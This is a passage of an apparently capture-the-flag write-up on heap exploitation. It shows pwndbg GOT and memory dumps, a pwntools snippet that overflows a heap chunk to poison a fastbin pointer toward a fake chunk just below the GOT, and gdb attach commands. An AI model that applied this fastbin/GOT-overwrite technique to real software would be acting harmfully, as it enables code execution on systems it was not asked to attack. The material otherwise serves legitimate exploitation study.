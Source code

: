     NX:       NX enabled
    PIE:      No PIE (0x400000)
```
check the got table
```
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 12
 
[0x602018] free@GLIBC_2.2.5 -> 0x7f2455ffd540 (free) ◂— push   r13
[0x602020] puts@GLIBC_2.2.5 -> 0x7f2455fe86a0 (puts) ◂— push   r12
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6) ◂— push   2
[0x602030] printf@GLIBC_2.2.5 -> 0x7f2455fce810 (printf) ◂— sub    rsp, 0xd8
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6) ◂— push   4
[0x602040] read@GLIBC_2.2.5 -> 0x7f2456070310 (read) ◂— cmp    dword ptr [rip + 0x2d2429], 0
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7f2455f99750 (__libc_start_main) ◂— push   r14
[0x602050] malloc@GLIBC_2.2.5 -> 0x7f2455ffd180 (malloc) ◂— push   rbp
[0x602058] setvbuf@GLIBC_2.2.5 -> 0x7f2455fe8e80 (setvbuf) ◂— push   rbp
[0x602060] open@GLIBC_2.2.5 -> 0x400766 (open@plt+6) ◂— push   9 /* 'h\t' */
[0x602068] atoi@GLIBC_2.2.5 -> 0x7f2455fafe90 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
```
find valid size before got
```
pwndbg> x/40gx 0x602018-0x40
0x601fd8:	0x0000000000000000	0x0000000000000000
0x601fe8:	0x0000000000000000	0x0000000000000000
0x601ff8:	0x0000000000000000	0x0000000000601e28
0x602008:	0x00007f245656a168	0x00007f245635ae40
0x602018:	0x00007f2455ffd540	0x00007f2455fe86a0
0x602028:	0x00000000004006f6	0x00007f2455fce810
0x602038:	0x0000000000400716	0x00007f2456070310
0x602048:	0x00007f2455f99750	0x00007f2455ffd180
0x602058:	0x00007f2455fe8e80	0x0000000000400766
0x602068:	0x00007f2455fafe90	0x0000000000400786
0x602078:	0x0000000000000000	0x0000000000000000
0x602088:	0x0000000000000000	0x0000000000000000
0x602098:	0x0000000000000000	0x00007f245633e620
0x6020a8:	0x0000000000000000	0x00007f245633d8e0
0x6020b8 <completed.7594>:	0x0000000000000000	0x0000000000000050
0x6020c8 <itemlist+8>:	0x0000000000e14030	0x0000000000000000
0x6020d8 <itemlist+24>:	0x0000000000000000	0x0000000000000000
0x6020e8 <itemlist+40>:	0x0000000000000000	0x0000000000000000
0x6020f8 <itemlist+56>:	0x0000000000000000	0x0000000000000000
0x602108 <itemlist+72>:	0x0000000000000000	0x0000000000000000
```
0x601ffa is OK
```
pwndbg> x/4gx 0x601ffa
0x601ffa:	0x1e28000000000000	0xa168000000000060
0x60200a:	0xae4000007f245656	0xd54000007f245635
```
change 0xdeadbeef to 0x601ffa, molloc twice, and use cyclic to find the free offset to overwrite 
```python
add(0x50, '000000')
add(0x50, '111111')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

pause()
add(0x50, '222222')
add(0x50, cyclic(n=8, length=0x30))
```
gdb break set to malloc and read in add
```gdb -q -p `pidof pwn` -ex "b *0x400A6F" -ex "b"*0x400AB8 -ex "c"```
```
